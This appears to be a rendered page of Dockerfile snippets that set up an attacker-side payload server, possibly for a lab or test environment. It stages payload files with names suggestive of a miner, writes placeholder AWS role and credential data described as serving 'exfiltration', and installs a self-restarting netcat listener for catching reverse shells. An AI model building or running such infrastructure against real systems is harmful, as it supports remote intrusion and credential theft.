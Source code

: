 ```Dockerfile
COPY xmx2 /payloads/
COPY www /payloads/
COPY cc.py /payloads/
COPY pt /payloads/
COPY xmx2.so /payloads/
COPY run.sh /payloads/
COPY noumt /payloads/
COPY config.json /payloads/

# Set permissions
RUN chmod +x /payloads/*
```

here we define some functions for data capture and exfiltration, and some sample data files for API endpoints.

```Dockerfile
RUN echo '{"RoleName":"example-k8s-admin-role","RoleId":"AROAEXAMPLEROLEID111","Path":"/","CreateDate":"2023-01-15T14:22:31Z","AssumeRolePolicyDocument":{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ec2.amazonaws.com"},"Action":"sts:AssumeRole"}]}}' > /payloads/iam-role && \
    echo '{"AccessKeyId":"AKIAEXAMPLEKEYID111","SecretAccessKey":"ExampleSecretAccessKey111222333444555","Token":"ExampleTokenStringForTestingPurposesOnly111222333","Expiration":"2023-01-01T12:00:00Z"}' > /payloads/aws-keys
```

i've also implemented a shell logger for tracking reverse shell connections.

```Dockerfile
# Create a script to log reverse shell connections
RUN echo '#!/bin/bash\n\
PORT=$1\n\
LOG_FILE="/payloads/shells/shell_${PORT}_$(date +%s).log"\n\
\n\
echo "Starting listener on port $PORT, logging to $LOG_FILE"\n\
echo "Listener started at $(date)" > $LOG_FILE\n\
\n\
# First try with netcat-traditional (GNU netcat) which supports -e\n\
if command -v nc.traditional &> /dev/null; then\n\
    echo "Using nc.traditional on port $PORT" | tee -a $LOG_FILE\n\
    nc.traditional -l -p $PORT -v 2>&1 | tee -a $LOG_FILE\n\
# Then try with netcat-openbsd which supports -l\n\
elif command -v nc.openbsd &> /dev/null; then\n\
    echo "Using nc.openbsd on port $PORT" | tee -a $LOG_FILE\n\
    nc.openbsd -l -p $PORT -v 2>&1 | tee -a $LOG_FILE\n\
# Fall back to whatever nc is available\n\
else\n\
    echo "Using default nc on port $PORT" | tee -a $LOG_FILE\n\
    nc -l -p $PORT -v 2>&1 | tee -a $LOG_FILE\n\
fi\n\
\n\
echo "Listener on port $PORT exited at $(date)" >> $LOG_FILE\n\
# Automatically restart the listener\n\
exec $0 $PORT\n' > /payloads/shell_logger.sh
```
